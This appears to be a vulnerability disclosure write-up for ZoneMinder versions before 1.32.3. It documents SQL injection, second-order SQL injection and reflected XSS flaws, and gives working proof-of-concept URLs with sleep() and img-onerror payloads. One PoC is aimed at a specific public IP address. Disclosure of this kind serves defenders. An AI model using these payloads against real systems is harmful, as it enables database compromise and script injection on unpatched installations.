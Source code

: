 ﻿# zoneminder vul before v1.32.3

标签（空格分隔）： 0day

---

# skins/classic/views/events.php line 44 sql injection

```
skins/classic/views/events.php line 44
```

![image.png-227.7kB][1]

```
parameter $_REQUEST['filter'] from function parseFilter

includes/functions.php line 1401 parameter sql come from $filter['terms'][$i]['cnj'] or $filter['terms'][$i]['obr']
```
![image.png-327.2kB][2]

in the above figure parameter countSql or eventsSql can be injected

poc
```
index.php?view=events&page=1&filter[terms][0][attr]=MonitorId&filter[terms][0][op]=%3D&filter[terms][0][val]=1&filter[terms][0][cnj]=1%2b1)and%20sleep(3)%23
```

# sql query error Reflected xss

when sql query error, sql error and message will be displayed without any validated, sanitised or output encoded.

```
includes/database.php line 120
```
![image.png-112.8kB][3]

if sql query without any validated, sanitised or output encoded and can be modifyed, it will lead to xss vulnerability.

```
https://95.143.216.108/zm/index.php?view=events&page=1&filter[terms][0][attr]=MonitorId&filter[terms][0][op]=%3D&filter[terms][0][val]=1&filter[terms][0][cnj]=1432%3Cimg/src=/%20onerror=alert`1`%3E
```
![image.png-133.7kB][4]

# skins/classic/views/control.php line 35 second order sqli

control.php line 35 

parameter `$groupSql` is detected from the database and directly spliced into the sql query statement.

![image.png-143.7kB][5]

from `includes/action.php line 748 $monitors` insert into database

![image.png-273.6kB][6]

first insert evil statement into database and select it to sql injection

poc
```
Step1:
index.php?action=group

newGroup[MonitorIds][]=1&newGroup[MonitorIds][]=2') or sleep(3)#&newGroup[Name]=132

Step2:
http://127.0.0.1/zoneminder/www/?view=control&mid=1&group={groupid}
```

# skins/classic/views/controlcap.php Reflected xss

Most of the variables below controlcap.php are not filtered. This variable is passed directly from the mid.

![image.png-508.9kB][7]

poc
```
?view=controlcap&newControl[MinTiltRange]=2333%22/%3E%3Cimg/src=/%20onerror=alert(1)%3E
```

# includes/functions.php daemonControl command injection

![image.png-92.9kB][8]

# ajax/status.php line 276 orderby sql injection

![image.png-157.5kB][9]

poc
```
http://127.0.0.1/zoneminder/www/?request=status&entity=monitor&element=id&id=1&sort=123
```

# ajax/status.php line 393 sql injection

there is two sql injection in `ajax/status.php line 393 and line 406`

![image.png-355.7kB][10]

```
includes/functions.php line 1401 parameter sql come from $filter['terms'][$i]['cnj'] or $filter['terms'][$i]['obr']
```
![image.png-327.2kB][2]

```
index.php?request=status&entity=nearevents&element=id&id=13&layout=text&filter[terms][0][cnj]=233)%20||1=1%23
```

  [1]: http://static.zybuluo.com/LoRexxar/ufoe8ar8rbq8nh505anfeiai/image.png
  [2]: http://static.zybuluo.com/LoRexxar/7ikqrdkra6d0rlau66nrctco/image.png
  [3]: http://static.zybuluo.com/LoRexxar/ignq5yfbbpblxz0wbak2uopc/image.png
  [4]: http://static.zybuluo.com/LoRexxar/uot1uzz7w8dqh10ucvs2u1ou/image.png
  [5]: http://static.zybuluo.com/LoRexxar/jgjix7qr8cmsrvfme8qpk57z/image.png
  [6]: http://static.zybuluo.com/LoRexxar/opgka8vbesefdh664yjfvr9n/image.png
  [7]: http://static.zybuluo.com/LoRexxar/4ra29cgr35a6tr4zarudua48/image.png
  [8]: http://static.zybuluo.com/LoRexxar/6bcj24neh6rubbyx547n25ps/image.png
  [9]: http://static.zybuluo.com/LoRexxar/gvvxxgmkk5g1bn425tva31tz/image.png
  [10]: http://static.zybuluo.com/LoRexxar/luo7z0r5w7r8ddi3rsro8gar/image.png